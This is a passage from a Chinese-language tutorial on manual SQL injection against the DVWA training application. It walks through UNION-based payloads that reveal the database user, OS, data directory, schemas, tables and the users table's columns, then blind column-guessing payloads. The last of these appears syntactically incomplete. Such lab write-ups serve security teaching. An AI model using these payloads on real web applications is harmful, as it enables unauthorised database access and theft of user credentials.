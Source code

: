 当前连接的数据库=dvwa；Mysql版本=5.5.53

- 获取当前连接数据库的用户
   `1' union select user(),2 #` 



![img](https://upload-images.jianshu.io/upload_images/4866277-a3efcdc65dc935b6.png?imageMogr2/auto-orient/strip|imageView2/2/w/279)

当前连接数据库的用户为root，即超管权限用户

- 获取服务器的操作系统、数据库的存储目录
   `1' union select @@version_compile_os,@@datadir #` 



![img](https://upload-images.jianshu.io/upload_images/4866277-406ef4112df4cd7f.png?imageMogr2/auto-orient/strip|imageView2/2/w/468)

服务器的操作系统=Win32；数据库的存储目录为...\MySQL\data\

#### 4.获取数据库中的表名

- 获取DBMS中所有数据库的名称
   `1' union select 1,schema_name from information_schema.schemata #` 

Mysql安装后默认会创建三个数据库：information_schema、mysql和test；`information_schema`库下的`schemata`表中保存着DBMS中的所有数据库名称信息



![img](https://upload-images.jianshu.io/upload_images/4866277-7417a9c6958e21b8.png?imageMogr2/auto-orient/strip|imageView2/2/w/469)

- 获取当前连接数据库(dvwa)中的所有表
   `1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #` 



![img](https://upload-images.jianshu.io/upload_images/4866277-a7b0f3140f628e31.png?imageMogr2/auto-orient/strip|imageView2/2/w/735)

dvwa库中的所有表为：guestbook、users

#### 5.获取表中的列名（字段）

方式1：
 `1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #`



![img](https://upload-images.jianshu.io/upload_images/4866277-7b55fedb658b33d9.png?imageMogr2/auto-orient/strip|imageView2/2/w/712)

表字段：user_id,first_name,last_name,user,password,avatar,last_login,failed_login

方式2：
 1）**猜测字段数**：根据指定数据库-数据表，尝试猜测表中的字段个数，当 [猜测值=实际值] 时，页面会正常显示内容；当 [猜测值≠实际值] 时，页面会返回为空记录or语法错误的提示
 `1' having (select count(*) from information_schema.COLUMNS where table_schema='dvwa' and table_name='users')=[字段数] #`
 2）**猜测字段名**：当猜测的字段名与实际存在的字段名匹配时，则返回正常内容，否则会返回空记录or语法错误提示
 如：猜测登录的用户名字段[username/uname/user/u_name/user_name...]
 `1' exists(select [字段名] from users) #`
